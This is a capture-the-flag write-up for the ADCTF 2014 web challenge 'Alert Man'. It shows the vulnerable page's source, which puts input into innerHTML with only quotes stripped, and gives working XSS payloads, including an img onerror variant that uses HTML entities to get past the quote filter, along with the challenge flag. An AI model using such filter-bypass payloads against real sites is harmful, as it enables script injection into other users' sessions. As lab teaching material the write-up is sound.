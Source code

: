 ```yaml
---
layout: writeup
title: 'December 2nd: Alert Man'
level:
difficulty:
points:
categories: []
tags: []
flag: ADCTF_I_4M_4l3Rt_M4n
---
```

## Category

Web

## Hint

*Can you alert('XSS')?*

## Challenge

weblink:
[http://adctf2014.katsudon.org/dat/AlSDUDdTMssNKajr/alert\_man.html][1]

This leads to a website where user can enter text in a box which is
printed to the screen in a list.

## Source

    <!DOCTYPE html>
    <html>
    <head>
        <meta charset="utf-8" />
        <title>alert man</title>
    </head>
    <body>
        <h1>alert man</h1>
        <form id="form">
            <input type="text" id="text" />
            <input type="submit" value="tweet" />
        </form>
        <p>Your tweet:</p>
        <ul id="tweets"></ul>
        <script>
    function appendTweet(tweet) {
        t = tweet.replace(/['"]/g, '');
        li = document.createElement('li');
        li.innerHTML = t;
        document.getElementById('tweets').appendChild(li);
    };
    appendTweet('here is your tweet!');
    _='var :=["HVHD>B>D91LI01ZDS7$LVDB0*89V0D&6Z4I4*H3#NDB31&49&15&2&W9&3&9492832W5??5613W780D$S5HC7*4BB33*674DE798SCY3BSCFYD#DBOPQ@X969963O6667@4A782/0C@/85QOM71Q%X53@TE141375H0833O4@DA5/39E%G84GDGC2N83%@7C78XA%X%TDG381%G3T4081PP447/6M0!9!70!29!1!4C27%PQ13"];eval(function (UJ2J3J4J5J6){while(3--){if(<{U=U[	6]]( new RegExp(	4]+3+	4],	5]),<KK;return UK(	0],10,49,	3][	2]](	1])));\\x500N53_0x3268xC76	:[22B435C5I56NM9D84","E1!9#D6V0$7%2&*E.6/2:_0x2915<4[3])>0EM?7W8@9TFG4H0I9J,K;} L.2M8N7O3P0QCS$TAU1VW5X6YE$ZI.';for(Y in $='ZYXWVUTSQPONMLKJIHGA@?><:/.*&%$#!	')with(_.split($[Y]))_=join(pop());eval(_);
    document.getElementById('form').onsubmit = function() {
        tweet = document.getElementById('text').value;
        appendTweet(tweet);
        return false;
    };
        </script>
    </body>
    </html>

## Solution

It appears we need to inject an *alert('XSS')* statement.

We can trigger a simple alert by entering

    <img src=/ onerror=alert(1)>

Quotes are filtered, but we can use escape characters:

    <img src=/ onerror=alert(&#39;XSS&#39;)>

A new tweet will appear in the list:

    the flag is: ADCTF_I_4M_4l3Rt_M4n



[1]: http://adctf2014.katsudon.org/dat/AlSDUDdTMssNKajr/alert_man.html
